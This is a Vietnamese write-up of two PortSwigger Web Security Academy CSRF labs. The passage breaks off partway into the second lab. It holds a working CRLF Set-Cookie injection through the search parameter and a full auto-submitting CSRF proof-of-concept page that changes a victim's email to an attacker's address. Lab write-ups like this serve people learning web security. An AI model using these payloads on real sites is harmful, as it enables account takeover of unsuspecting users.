 ### Lab: CSRF where token is tied to non-session cookie
Bài lab mô tả rằng website đã củng cố thêm mã CSRF để ngăn chặn những cuộc tấn công, tuy nhiên mã CSRF lại không được tích hợp hoàn toàn vào seasion dẫn đến lỗ hổng cho chúng ta khai thác.

Đầu tiên chúng ta login vào 2 account và bắt lại request khi sử dụng chức năng update email lại và chuyển request vào repeater. Sau đó thay thế CSRF và CSRFKey của accout này bằng của account kia. Sau đó forward:




Và chúng ta thấy rằng kết quả vẫn được trả về, chức năng vẫn được thực hiện đây chính là lỗ hổng mà chúng ta khai thác, chúng ta có thể dùng việc này để thay đổi CSRF của nạn nhân bằng CSRF của chúng ta. Tuy nhiên chỉ mỗi việc này là chưa đủ, chúng ta cần 1 chức năng khác của nạn nhân mà có ảnh hưởng hoặc liên quán đến cookie. Chúng ta thấy chức năng search, bắt request lại chúng ta nhận thấy rằng search sẽ có phần trả về liên kết với Set Cookie.


Điều đó thay đổi trong phần payload của chúng ta, thay vì submit.form thì bây giờ chúng ta tận dụng chức năng search:
```
<img src="http://aca51ff61e8030e780d227cd009a0095.web-security-academy.net/
?search=halo%0d%0aSet-Cookie:%20csrfKey=7UcNABJHVZF4XzJbVtNeAxgr0J50lOLE" onerror="document.forms[0].submit()">
```
Sau đó chúng ta lặp lại việc thay thế CSRFkey vừa làm và tạo payload bằng Engegament và chúng ta có payload như sau:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://aca51ff61e8030e780d227cd009a0095.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="datnlq&#64;hacker&#46;de" />
      <input type="hidden" name="csrf" value="I5C4UBLoZGT1jdFCwsq3ewWkhQdSFU5c" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="http://aca51ff61e8030e780d227cd009a0095.web-security-academy.net/?search=halo%0d%0aSet-Cookie:%20
    csrfKey=7UcNABJHVZF4XzJbVtNeAxgr0J50lOLE" onerror="document.forms[0].submit()">
  </body>
</html>

```
Đi tới exploit server và Store để send payload lên website Delver to Victim to solve.

### Lab: CSRF where token is duplicated in cookie

Bài lab mô tả rằng lần này để ngăn chặn việc exploit CSRF thì website sử dụng "double submit" . 
Login vào account và bắt request, ta thấy được rằng có đến 2 biến csrf và thay đổi 1 trong 2 sẽ trả về kết quả như sau :

Và kèm theo là chức năng search vẫn có khả năng set cookie như bài trước.
